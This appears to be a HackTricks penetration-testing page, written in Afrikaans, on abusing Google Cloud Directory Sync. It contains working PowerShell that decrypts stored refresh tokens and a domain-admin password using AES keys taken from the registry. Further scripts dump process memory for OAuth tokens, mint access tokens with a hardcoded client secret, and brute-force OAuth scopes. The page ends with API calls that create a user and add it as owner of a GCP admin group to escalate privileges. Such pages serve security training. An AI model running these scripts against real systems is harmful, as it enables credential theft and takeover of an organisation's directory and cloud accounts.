

# GCDS - Google Cloud Directory Sync

{{#include ../../../banners/hacktricks-training.md}}

## Basiese Inligting

Dit is 'n hulpmiddel wat gebruik kan word om **jou aktiewe gidsgebruikers en groepe na jou Workspace te sinkroniseer** (en nie andersom nie ten tyde van hierdie skrywe).

Dit is interessant omdat dit 'n hulpmiddel is wat die **bewyse van 'n Workspace superuser en bevoorregte AD-gebruiker** sal vereis. Dit mag dus moontlik wees om dit binne 'n domeinbediener te vind wat gebruikers van tyd tot tyd sal sinkroniseer.

> [!NOTE]
> Om 'n **MitM** op die **`config-manager.exe`** binêre uit te voer, voeg net die volgende lyn in die `config.manager.vmoptions`-lêer by: **`-Dcom.sun.net.ssl.checkRevocation=false`**

> [!TIP]
> Let daarop dat [**Winpeas**](https://github.com/peass-ng/PEASS-ng/tree/master/winPEAS/winPEASexe) in staat is om **GCDS** te detecteer, inligting oor die konfigurasie te verkry en **selfs die wagwoorde en versleutelde bewysstukke**.

Let ook daarop dat GCDS nie wagwoorde van AD na Workspace sal sinkroniseer nie. As iets, sal dit net ewekansige wagwoorde genereer vir nuut geskepte gebruikers in Workspace soos jy in die volgende beeld kan sien:

<figure><figcaption></figcaption></figure>

### GCDS - Skyf Tokens & AD Bewyse

Die binêre `config-manager.exe` (die hoof GCDS binêre met GUI) sal die geconfigureerde Aktiewe Gids bewysstukke, die verfrissingstoken en die toegang standaard in 'n **xml-lêer** in die gids **`C:\Program Files\Google Cloud Directory Sync`** in 'n lêer genaamd **`Untitled-1.xml`** stoor. Alhoewel dit ook in die `Documents` van die gebruiker of in **enige ander gids** gestoor kan word.

Boonop bevat die register **`HKCU\SOFTWARE\JavaSoft\Prefs\com\google\usersyncapp\ui`** binne die sleutel **`open.recent`** die paaie na al die onlangs geopende konfigurasielêers (xmls). Dit is dus moontlik om **dit na te gaan om hulle te vind**.

Die mees interessante inligting binne die lêer sal wees:
```xml
[...]
<loginMethod>OAUTH2</loginMethod>
<oAuth2RefreshToken>rKvvNQxi74JZGI74u68aC6o+3Nu1ZgVUYdD1GyoWyiHHxtWx+lbx3Nk8dU27fts5lCJKH/Gp1q8S6kEM2AvjQZN16MkGTU+L2Yd0kZsIJWeO0K0RdVaK2D9Saqchk347kDgGsQulJnuxU+Puo46+aA==</oAuth2RefreshToken>
<oAuth2Scopes>
<scope>https://www.google.com/m8/feeds/</scope>
<scope>https://www.googleapis.com/auth/admin.directory.group</scope>
<scope>https://www.googleapis.com/auth/admin.directory.orgunit</scope>
<scope>https://www.googleapis.com/auth/admin.directory.resource.calendar</scope>
<scope>https://www.googleapis.com/auth/admin.directory.user</scope>
<scope>https://www.googleapis.com/auth/admin.directory.userschema</scope>
<scope>https://www.googleapis.com/auth/apps.groups.settings</scope>
<scope>https://www.googleapis.com/auth/apps.licensing</scope>
<scope>https://www.googleapis.com/auth/plus.me</scope>
</oAuth2Scopes>
[...]
<hostname>192.168.10.23</hostname>
<port>389</port>
<basedn>dc=hacktricks,dc=local</basedn>
<authType>SIMPLE</authType>
<authUser>DOMAIN\domain-admin</authUser>
<authCredentialsEncrypted>XMmsPMGxz7nkpChpC7h2ag==</authCredentialsEncrypted>
[...]
```
Let op hoe die **refresh** **token** en die **wagwoord** van die gebruiker **geënkripteer** is met **AES CBC** met 'n ewekansig gegenereerde sleutel en IV wat gestoor is in **`HKEY_CURRENT_USER\SOFTWARE\JavaSoft\Prefs\com\google\usersyncapp\util`** (waar die **`prefs`** Java-biblioteek die voorkeure stoor) in die string sleutels **`/Encryption/Policy/V2.iv`** en **`/Encryption/Policy/V2.key`** wat in base64 gestoor is.

<details>

<summary>Powershell-skrip om die refresh token en die wagwoord te dekripteer</summary>
```powershell
# Paths and key names
$xmlConfigPath = "C:\Users\c\Documents\conf.xml"
$regPath = "SOFTWARE\JavaSoft\Prefs\com\google\usersyncapp\util"
$ivKeyName = "/Encryption/Policy/V2.iv"
$keyKeyName = "/Encryption/Policy/V2.key"

# Open the registry key
try {
$regKey = [Microsoft.Win32.Registry]::CurrentUser.OpenSubKey($regPath)
if (-not $regKey) {
Throw "Registry key not found: HKCU\$regPath"
}
}
catch {
Write-Error "Failed to open registry key: $_"
exit
}

# Get Base64-encoded IV and Key from the registry
try {
$ivBase64 = $regKey.GetValue($ivKeyName)
$ivBase64 = $ivBase64 -replace '/', ''
$ivBase64 = $ivBase64 -replace '\\', '/'
if (-not $ivBase64) {
Throw "IV not found in registry"
}
$keyBase64 = $regKey.GetValue($keyKeyName)
$keyBase64 = $keyBase64 -replace '/', ''
$keyBase64 = $keyBase64 -replace '\\', '/'
if (-not $keyBase64) {
Throw "Key not found in registry"
}
}
catch {
Write-Error "Failed to read registry values: $_"
exit
}
$regKey.Close()


# Decode Base64 IV and Key
$ivBytes = [Convert]::FromBase64String($ivBase64)
$keyBytes = [Convert]::FromBase64String($keyBase64)

# Read XML content
$xmlContent = Get-Content -Path $xmlConfigPath -Raw

# Extract Base64-encoded encrypted values using regex
$refreshTokenMatch = [regex]::Match($xmlContent, "<oAuth2RefreshToken>(.*?)</oAuth2RefreshToken>")
$refreshTokenBase64 = $refreshTokenMatch.Groups[1].Value

$encryptedPasswordMatch = [regex]::Match($xmlContent, "<authCredentialsEncrypted>(.*?)</authCredentialsEncrypted>")
$encryptedPasswordBase64 = $encryptedPasswordMatch.Groups[1].Value

# Decode encrypted values from Base64
$refreshTokenEncryptedBytes = [Convert]::FromBase64String($refreshTokenBase64)
$encryptedPasswordBytes = [Convert]::FromBase64String($encryptedPasswordBase64)

# Function to decrypt data using AES CBC
Function Decrypt-Data($cipherBytes, $keyBytes, $ivBytes) {
$aes = [System.Security.Cryptography.Aes]::Create()
$aes.Mode = [System.Security.Cryptography.CipherMode]::CBC
$aes.Padding = [System.Security.Cryptography.PaddingMode]::PKCS7
$aes.KeySize = 256
$aes.BlockSize = 128
$aes.Key = $keyBytes
$aes.IV = $ivBytes

$decryptor = $aes.CreateDecryptor()
$memoryStream = New-Object System.IO.MemoryStream
$cryptoStream = New-Object System.Security.Cryptography.CryptoStream($memoryStream, $decryptor, [System.Security.Cryptography.CryptoStreamMode]::Write)
$cryptoStream.Write($cipherBytes, 0, $cipherBytes.Length)
$cryptoStream.FlushFinalBlock()
$plaintextBytes = $memoryStream.ToArray()

$cryptoStream.Close()
$memoryStream.Close()

return $plaintextBytes
}

# Decrypt the values
$refreshTokenBytes = Decrypt-Data -cipherBytes $refreshTokenEncryptedBytes -keyBytes $keyBytes -ivBytes $ivBytes
$refreshToken = [System.Text.Encoding]::UTF8.GetString($refreshTokenBytes)

$decryptedPasswordBytes = Decrypt-Data -cipherBytes $encryptedPasswordBytes -keyBytes $keyBytes -ivBytes $ivBytes
$decryptedPassword = [System.Text.Encoding]::UTF8.GetString($decryptedPasswordBytes)

# Output the decrypted values
Write-Host "Decrypted Refresh Token: $refreshToken"
Write-Host "Decrypted Password: $decryptedPassword"
```
</details>

> [!NOTE]
> Let daarop dat dit moontlik is om hierdie inligting te kontroleer deur die java kode van **`DirSync.jar`** in **`C:\Program Files\Google Cloud Directory Sync`** te soek na die string `exportkeys` (aangesien dit die cli param is wat die binêre `upgrade-config.exe` verwag om die sleutels te dump).

In plaas daarvan om die powershell skrip te gebruik, is dit ook moontlik om die binêre **`:\Program Files\Google Cloud Directory Sync\upgrade-config.exe`** met die param `-exportKeys` te gebruik en die **Key** en **IV** uit die registrasie in hex te kry en dan net 'n bietjie cyberchef met AES/CBC en daardie sleutel en IV te gebruik om die inligting te ontsleutel.

### GCDS - Dumping tokens from memory

Net soos met GCPW, is dit moontlik om die geheue van die proses van die `config-manager.exe` proses (dit is die naam van die GCDS hoof binêre met GUI) te dump en jy sal in staat wees om verfris- en toegangstokens te vind (as hulle reeds gegenereer is).\
Ek raai jy kan ook die AD geconfigureerde akrediteerings vind.

<details>

<summary>Dump config-manager.exe processes and search tokens</summary>
```powershell
# Define paths for Procdump and Strings utilities
$procdumpPath = "C:\Users\carlos_hacktricks\Desktop\SysinternalsSuite\procdump.exe"
$stringsPath = "C:\Users\carlos_hacktricks\Desktop\SysinternalsSuite\strings.exe"
$dumpFolder = "C:\Users\Public\dumps"

# Regular expressions for tokens
$tokenRegexes = @(
"ya29\.[a-zA-Z0-9_\.\-]{50,}",
"1//[a-zA-Z0-9_\.\-]{50,}"
)

# Create a directory for the dumps if it doesn't exist
if (!(Test-Path $dumpFolder)) {
New-Item -Path $dumpFolder -ItemType Directory
}

# Get all Chrome process IDs
$chromeProcesses = Get-Process -Name "config-manager" -ErrorAction SilentlyContinue | Select-Object -ExpandProperty Id

# Dump each Chrome process
foreach ($processId in $chromeProcesses) {
Write-Output "Dumping process with PID: $processId"
& $procdumpPath -accepteula -ma $processId "$dumpFolder\chrome_$processId.dmp"
}

# Extract strings and search for tokens in each dump
Get-ChildItem $dumpFolder -Filter "*.dmp" | ForEach-Object {
$dumpFile = $_.FullName
$baseName = $_.BaseName
$asciiStringsFile = "$dumpFolder\${baseName}_ascii_strings.txt"
$unicodeStringsFile = "$dumpFolder\${baseName}_unicode_strings.txt"

Write-Output "Extracting strings from $dumpFile"
& $stringsPath -accepteula -n 50 -nobanner $dumpFile > $asciiStringsFile
& $stringsPath -accepteula -n 50 -nobanner -u $dumpFile > $unicodeStringsFile

$outputFiles = @($asciiStringsFile, $unicodeStringsFile)

foreach ($file in $outputFiles) {
foreach ($regex in $tokenRegexes) {

$matches = Select-String -Path $file -Pattern $regex -AllMatches

$uniqueMatches = @{}

foreach ($matchInfo in $matches) {
foreach ($match in $matchInfo.Matches) {
$matchValue = $match.Value
if (-not $uniqueMatches.ContainsKey($matchValue)) {
$uniqueMatches[$matchValue] = @{
LineNumber = $matchInfo.LineNumber
LineText   = $matchInfo.Line.Trim()
FilePath   = $matchInfo.Path
}
}
}
}

foreach ($matchValue in $uniqueMatches.Keys) {
$info = $uniqueMatches[$matchValue]
Write-Output "Match found in file '$($info.FilePath)' on line $($info.LineNumber): $($info.LineText)"
}
}

Write-Output ""
}
}

Remove-Item -Path $dumpFolder -Recurse -Force
```
</details>

### GCDS - Genereer toegangstokens vanaf verfrissingstokens

Deur die verfrissingstoken te gebruik, is dit moontlik om toegangstokens te genereer met dit en die kliënt-ID en kliëntgeheim wat in die volgende opdrag gespesifiseer is:
```bash
curl -s --data "client_id=118556098869.apps.googleusercontent.com" \
--data "client_secret=Co-LoSjkPcQXD9EjJzWQcgpy" \
--data "grant_type=refresh_token" \
--data "refresh_token=1//03gQU44mwVnU4CDHYE736TGMSNwF-L9IrTuikNFVZQ3sBxshrJaki7QvpHZQMeANHrF0eIPebz0dz0S987354AuSdX38LySlWflI" \
https://www.googleapis.com/oauth2/v4/token
```
### GCDS - Skoppe

> [!NOTE]
> Let daarop dat dit nie moontlik is om enige skop vir die toegangstoken aan te vra nie, selfs al het jy 'n verfrissings-token, aangesien jy slegs die **skoppe wat deur die toepassing ondersteun word waar jy die toegangstoken genereer** kan aan vra.
>
> Ook is die verfrissings-token nie geldig in elke toepassing nie.

Standaard sal GCSD nie toegang hê as die gebruiker tot elke moontlike OAuth-skop nie, so deur die volgende skrip te gebruik, kan ons die skoppe vind wat met die `refresh_token` gebruik kan word om 'n `access_token` te genereer:

<details>

<summary>Bash-skrip om skoppe te brute-force</summary>
```bash
curl "https://developers.google.com/identity/protocols/oauth2/scopes" | grep -oE 'https://www.googleapis.com/auth/[a-zA-Z/\._\-]*' | sort -u | while read -r scope; do
echo -ne "Testing $scope           \r"
if ! curl -s --data "client_id=118556098869.apps.googleusercontent.com" \
--data "client_secret=Co-LoSjkPcQXD9EjJzWQcgpy" \
--data "grant_type=refresh_token" \
--data "refresh_token=1//03PR0VQOSCjS1CgYIARAAGAMSNwF-L9Ir5b_vOaCmnXzla0nL7dX7TJJwFcvrfgDPWI-j19Z4luLpYfLyv7miQyvgyXjGEXt-t0A" \
--data "scope=$scope" \
https://www.googleapis.com/oauth2/v4/token 2>&1 | grep -q "error_description"; then
echo ""
echo $scope
echo $scope >> /tmp/valid_scopes.txt
fi
done

echo ""
echo ""
echo "Valid scopes:"
cat /tmp/valid_scopes.txt
rm /tmp/valid_scopes.txt
```
</details>

En dit is die uitvoer wat ek op die tyd van skryf gekry het:
```
https://www.googleapis.com/auth/admin.directory.group
https://www.googleapis.com/auth/admin.directory.orgunit
https://www.googleapis.com/auth/admin.directory.resource.calendar
https://www.googleapis.com/auth/admin.directory.user
https://www.googleapis.com/auth/admin.directory.userschema
https://www.googleapis.com/auth/apps.groups.settings
https://www.googleapis.com/auth/apps.licensing
https://www.googleapis.com/auth/contacts
```
#### Skep 'n gebruiker en voeg dit by die groep `gcp-organization-admins` om te probeer om in GCP te eskaleer
```bash
# Create new user
curl -X POST \
'https://admin.googleapis.com/admin/directory/v1/users' \
-H 'Authorization: Bearer <ACCESS_TOKEN>' \
-H 'Content-Type: application/json' \
-d '{
"primaryEmail": "deleteme@domain.com",
"name": {
"givenName": "Delete",
"familyName": "Me"
},
"password": "P4ssw0rdStr0ng!",
"changePasswordAtNextLogin": false
}'

# Add to group
curl -X POST \
'https://admin.googleapis.com/admin/directory/v1/groups/gcp-organization-admins@domain.com/members' \
-H 'Authorization: Bearer <ACCESS_TOKEN>' \
-H 'Content-Type: application/json' \
-d '{
"email": "deleteme@domain.com",
"role": "OWNER"
}'

# You could also change the password of a user for example
```
> [!CAUTION]
> Dit is nie moontlik om die nuwe gebruiker die Super Amin rol te gee nie omdat die **herlaai token nie genoeg skope het** om die vereiste voorregte te gee nie.

{{#include ../../../banners/hacktricks-training.md}}
